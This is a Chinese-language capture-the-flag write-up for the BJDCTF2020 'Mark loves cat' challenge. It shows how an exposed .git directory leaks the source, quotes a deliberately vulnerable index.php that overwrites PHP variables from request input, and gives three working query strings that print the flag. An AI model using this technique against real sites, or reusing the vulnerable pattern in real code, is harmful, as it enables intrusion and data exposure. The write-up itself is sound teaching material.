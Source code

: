 # [BJDCTF2020]Mark loves cat

## 知识点

`git泄露`

`php变量覆盖`

## 解题

题目首页

![](./img/[BJDCTF2020]Marklovescat-1.png)

仅在源码里面找到了`dog`，尝试传参`cat=dog`之类的失败，`robots.txt`和`www.zip`没有，在尝试`/.git/HEAD`时发现有文件

`githack`下载源码

`flag.php`

```php
<?php

$flag = file_get_contents('/flag');
```

`index.php`

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
```

#### 1. handsome

`/?handsome=flag`
通过如下
`$handsome=$flag`
从而成功获取`flag`
为满足条件退出追加两个参数 `x=flag&flag=x`

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){ //如果GET型中flag变量的值等于GET型中一个不为flag的键名则退出
        
        exit($handsome); //exit显然能利用
    }
}
```

#### 2. yds

比较简单 直接 `/?yds=flag`即可

```php
foreach($_GET as $x => $y){
    $$x = $$y; //GET型变量重新赋值为当前文件变量中以其值为键名的值
}
 //如果GET型和POST型中都没有变量flag,则退出
if(!isset($_GET['flag']) && !isset($_POST['flag'])){ 
    exit($yds);
}
```

#### 3. is

/?is=flag&flag=flag

```php
if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}
```

[参考文章](https://juejin.cn/post/7091558373337858079)